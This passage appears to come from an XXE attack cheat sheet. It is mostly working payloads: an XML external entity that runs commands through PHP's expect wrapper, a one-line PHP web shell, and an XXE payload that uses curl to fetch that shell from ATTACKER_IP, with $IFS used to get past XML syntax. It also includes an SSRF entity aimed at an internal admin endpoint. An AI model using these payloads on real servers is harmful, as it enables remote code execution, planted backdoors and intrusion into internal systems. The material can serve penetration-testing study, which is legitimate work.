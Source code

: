 **Decoding Base64 Output:**
```bash
# Extract base64 from response
echo "PD9waHAKZWNobyAiSGVsbG8gV29ybGQhIjsKPz4=" | base64 -d

# Output: <?php echo "Hello World!"; ?>
```

### Remote Code Execution

#### PHP Expect Wrapper (Rare)
**Requirements:** `expect` module installed and enabled
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY cmd SYSTEM "expect://id">
]>
<root>
    <name>Test User</name>
    <email>&cmd;</email>
    <message>Test message</message>
</root>
```

#### Web Shell Deployment
**Method 1: Download and Execute**
```bash
# Step 1: Create web shell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

# Step 2: Start HTTP server
python3 -m http.server 80
```

**Step 3: XXE payload to download shell:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY shell SYSTEM "expect://curl$IFS-O$IFS'http://ATTACKER_IP/shell.php'">
]>
<root>
    <name>Test User</name>
    <email>&shell;</email>
    <message>Test message</message>
</root>
```

**Note:** Replace spaces with `$IFS` to avoid breaking XML syntax

### Other XXE Attack Vectors

#### Server-Side Request Forgery (SSRF)
```xml
<!DOCTYPE email [
  <!ENTITY ssrf SYSTEM "http://internal-server:8080/admin">
]>
<root>
    <email>&ssrf;</email>
</root>
```
